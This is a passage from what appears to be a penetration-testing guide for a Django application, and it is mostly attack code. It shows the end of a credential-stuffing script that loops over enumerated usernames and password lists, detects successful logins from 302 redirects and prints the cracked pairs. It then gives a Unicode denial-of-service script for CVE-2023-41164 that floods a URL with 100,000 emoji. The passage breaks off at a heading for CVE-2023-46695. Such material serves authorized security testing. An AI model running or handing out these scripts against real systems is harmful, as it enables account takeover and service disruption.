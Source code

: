 ```python
    csrf_token = session.cookies.get('csrftoken')

    r = session.post(target, data={
        'username': username,
        'password': password,
        'csrfmiddlewaretoken': csrf_token,
    }, allow_redirects=False)

    # 302 redirect = successful login
    if r.status_code == 302:
        return True
    return False

print("[*] Starting credential stuffing attack...")
for username in enumerated_users:
    print(f"\n[*] Testing passwords for: {username}")
    for i, password in enumerate(passwords):
        if i % 100 == 0:
            print(f"[*] Tried {i} passwords...")

        if try_login(username, password):
            print(f"\n[+] SUCCESS! {username}:{password}")
            break
```

---

### 4.3 Denial of Service (Unicode Attacks)

**Vulnerability:** Multiple CVEs allow DoS via excessive Unicode characters.

**CVE-2023-41164 - URI Unicode DoS:**

```python
# unicode_dos.py
import requests

target = "http://localhost:8000"

# Craft malicious URL with excessive Unicode
payload = "api/v1/" + "🔥" * 100000

print("[*] Sending Unicode DoS payload...")
try:
    r = requests.get(f"{target}/{payload}", timeout=5)
    print(f"[-] Attack failed: {r.status_code}")
except requests.exceptions.Timeout:
    print("[+] Server timeout - DoS successful!")
except Exception as e:
    print(f"[+] Server error: {e} - Possible DoS")
```

**CVE-2023-46695 - Username Unicode DoS:**
